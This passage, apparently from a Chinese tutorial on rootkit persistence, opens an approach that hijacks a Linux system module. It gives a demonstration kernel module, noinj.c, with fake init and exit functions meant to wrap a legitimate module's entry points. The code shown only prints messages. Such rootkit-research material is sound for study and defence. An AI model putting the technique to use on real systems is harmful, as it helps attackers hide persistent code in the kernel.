 



### rootkit持久化

#### 方案一：劫持系统模块

**编译过程**

noinj.c

```
# ifndef CPP
# include <linux/module.h>
# include <linux/kernel.h>
# endif // CPP

# include "zeroevil/zeroevil.h"


MODULE_LICENSE("GPL");

int
noinj_init(void)
{
    fm_alert("noinj: %s\n", "Greetings the World!");

    return 0;
}

void
noinj_exit(void)
{
    fm_alert("noinj: %s\n", "Farewell the World!");

    return;
}

module_init(noinj_init);
module_exit(noinj_exit);

int
fake_init(void)
{
    noinj_init();

    fm_alert("==> NOINJ: %s\n", "GR33TINGS THE W0RLD!");

    return 0;
}

int
fake_exit(void)
{
    noinj_exit();

    fm_alert("==> NOINJ: %s\n", "FAR3W311 THE W0RLD!");

    return 0;
}
```
